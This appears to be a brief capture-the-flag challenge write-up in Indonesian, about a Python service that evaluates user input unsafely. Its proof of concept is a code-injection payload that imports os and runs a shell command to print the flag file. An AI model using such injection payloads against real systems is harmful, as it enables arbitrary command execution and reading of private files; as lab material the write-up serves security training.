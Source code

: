 ## Judul Soal
Kenalan Dulu Dong :)

## Deskripsi Soal
Input Berbahaya pada ular

---
## Proof of Concept
- <__import__('os').system('cat flag')>
## Flag
See the flag file

## Addtionals
- Feel free to modify this code

